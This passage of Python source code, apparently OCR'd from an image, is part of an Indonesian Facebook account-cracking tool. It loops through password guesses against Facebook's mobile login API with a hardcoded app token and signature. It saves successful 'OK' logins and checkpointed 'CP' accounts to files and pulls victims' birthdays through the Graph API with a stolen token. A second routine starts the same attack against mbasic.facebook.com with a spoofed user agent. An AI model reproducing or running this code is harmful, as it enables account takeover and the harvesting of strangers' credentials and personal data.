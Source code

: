             api = 'https://b-api.facebook.com/method/auth.login'
            params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32',  'format': 'JSON', 'sdk_version': '2', 'email': user, 'locale': 'en_US', 'password': pw, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
            response = requests.get(api, params=params, headers=headers_)
            if response.status_code != 200:
                sys.stdout.write('\r %s[%s!%s] IP terblokir hidupkan mode pesawat 5 detik'%(N,M,N)),
                sys.stdout.flush()
                loop +=1
                self.__api__()
            if 'access_token' in response.text and 'EAAA' in response.text:
                print '\r  %s* --> %s|%s                 %s' % (H,user,pw,N)
                wrt = ' [✓] %s|%s' % (user,pw)
                ok.append(wrt)
                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue
            elif 'www.facebook.com' in response.json()['error_msg']:
                try:
                    kontol = open('.memek.txt').read()
                    cp_ttl = requests.get('https://graph.facebook.com/%s?access_token=%s'%(user,kontol)).json()['birthday']
                    month, day, year = cp_ttl.split('/')
                    month = bulan_ttl[month]
                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)
                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)
                    cp.append(wrt)
                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                except (KeyError, IOError):
                    month = ''
                    day   = ''
                    year  = ''
                except:
                    pass

                print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)
                wrt = ' [×] %s|%s' % (user,pw)
                cp.append(wrt)
                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue

        loop += 1

    def __mbasic__(self, user, __yan__):
        global ok,cp,loop
        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),
        sys.stdout.flush()
        for pw in __yan__:
            pw = pw.lower()
            try: os.mkdir('results')
            except: pass
            try:
            	_kontol = open('YNTKTS.txt', 'r').read()
            except (KeyError, IOError):
            	_kontol = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
            ses = requests.Session()
            ses.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":_kontol,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})